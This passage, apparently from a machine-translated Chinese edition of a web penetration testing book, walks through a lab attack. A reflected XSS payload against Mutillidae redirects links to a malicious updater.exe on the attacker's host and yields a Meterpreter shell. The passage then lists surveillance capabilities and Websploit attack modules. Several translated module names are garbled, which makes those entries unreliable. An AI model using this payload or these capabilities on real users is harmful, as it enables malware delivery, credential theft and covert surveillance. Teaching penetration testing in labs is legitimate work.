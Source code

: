 让我们将我们的可执行文件放在 Kali VM 上一个快速脏的 Apache web 服务器的默认文件夹中，并编写一个脚本发送给潜在目标，以提供一个反映的 XSS JavaScript，现在它指向受害者的浏览器下载可执行文件。

这就是它看起来的样子：

```
http://172.16.30.129/mutillidae/index.php?page=user-info.php&username= <script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");  AllLinks[0].href = "http://172.16.30.128/updater.exe"; }</script>
```

当我们将其放入一封快速且肮脏的电子邮件（发送到我的 Windows 7 VM 和 IE 9）中时，我们可以假设用户有超过 50%的机会看到`updater.exe`文件名，将其与我的可信 web 应用程序关联，并执行它。在我们的卡利终端会议上，我们看到这一进展，我们得到了一个好消息，他们已经见面，现在正在联系！MeterMeter 现在充当提示，一个快速的`dir`命令向我们显示正在运行的目录的内容（如下面的屏幕截图所示）；但是我们能从这里做什么呢？

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_15-1.png)

恭喜，我们现在可以远程访问 shell 了！

计量器是非常强大的东西；通过此访问，您现在可以在受害者不知情的情况下管理受害者的计算机。以下是一些在我们的 web app 笔测试中有用的东西：

*   转储哈希并操纵或窃取 cookie
*   秘密或公开使用系统网络摄像头和麦克风
*   进行键记录
*   上载、下载、编辑、删除、创建、移动和搜索文件和目录
*   终止或生成进程、修改注册表或关闭/重新启动/休眠计算机
*   请参阅网络和代理配置以及配置端口转发
*   查看系统和用户信息并升级权限

总而言之，这是一些可怕的东西，应该清楚地认识到，web 应用程序有责任确保它们不会将用户置于这种情况下。

如果我们遇到更新的浏览器或防御更严密的主机，这种简单的基于 exe 的攻击可能不会有多大进展。通过一些更先进的 Metasploit 功能、创造性的有效负载，甚至是无文件攻击的实践使用，这些防御措施可以，而且常常是规避的。

### Metasploit 专注于网络的表亲�� Websploit

Metasploit 在扫描和利用功能方面的范围是惊人的，通过插件和模块的开放扩展，它以多功能性和强大功能赢得了良好的声誉。然而，有时候，您正在寻找一个 web 应用程序焦点，而这正是一个类似的开源框架，名为**Websploit**（[）https://sourceforge.net/p/websploit/wiki/Home/](https://sourceforge.net/p/websploit/wiki/Home/) 开始发挥作用。与 Metasploit 一样，它提供了一种以命令行为中心的方法来调用和加载模块。它还通过插件和模块共享可扩展性，这些插件和模块帮助 Metasploit 保持了 pen 测试工具的领先地位，但它不是一个包罗万象的套件，而是专注于我们作为 web 渗透测试人员和道德黑客角色所特有的许多漏洞。

Wiki 上的模块和插件列表是其用途的一大赠品：

*   **Autopwn**：这是从 Metasploit 借来的，用于扫描和利用目标服务/服务器
*   **wmap**：可以扫描或抓取从 Metasploit`wmap`插件借用的目标
*   **格式感染器**：将反向和绑定有效负载注入到文件格式中
*   **Phpmyadmin**：搜索目标`phpmyadmin`登录页面
*   **lfi**：可以扫描并绕过本地文件包含漏洞，绕过一些 WAF
*   Apache 用户：这可以搜索服务器用户名目录（与 Apache web 服务器一起使用时）
*   **Dir Bruter**：使用单词列表对目标目录进行暴力攻击
*   **管理员查找器**：搜索目标的管理员和登录页面
*   Mulm 攻击：Ty1T:：中间人，XSS 钓鱼攻击
*   男性中间攻击
*   **Java 小程序攻击**：Java 签名小程序攻击
*   Mood 攻击向量 AUT1：末梢攻击向量中指
*   **USB 感染攻击**：创建可执行后门感染 Windows 版 USB
*   **ARP DOS**：随机 MAC 的 ARP 缓存拒绝服务攻击
*   **网络杀手攻击**：在网络上关闭您的网站（TCPKILL）
*   **虚假更新攻击**：这会为目标操作系统创建虚假更新页面
*   **假接入点攻击**：这可以创建假 AP 并嗅探受害者信息
